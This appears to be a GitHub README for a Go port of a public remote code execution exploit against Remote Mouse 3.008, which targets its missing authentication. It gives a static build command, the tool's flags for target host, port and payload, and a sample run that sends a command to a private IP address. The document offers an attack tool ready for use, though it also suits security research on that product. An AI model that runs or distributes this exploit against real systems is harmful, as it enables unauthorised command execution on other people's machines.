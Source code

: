 # Remote Mouse 3.008 - Failure to Authenticate to RCE

Rewrite in Go of the exploit from [0rphon for Remote Mouse 3.008](https://www.exploit-db.com/exploits/46697).
Go allows you to compile a static executable in a simple way with :

```
$ CGO_ENABLED=0 GOOS=linux go build -a -ldflags '-extldflags "-static"' main.go
```

## How to use 

```
$ ./46697 -h
Usage of ./46697:
  -delay int
        delay between each write to the RemoteMouse server in millisecond (default 500)
  -host string
        host of the RemoteMouse server
  -payload string
        payload to the RemoteMouse server
  -port int
        port of RemoteMouse server (default 1978)
  -progress
        show sended packet to the RemoteMouse server

$ ./46697 -host 10.1.1.89 -payload "ping.exe 127.0.0.1" -progress
```
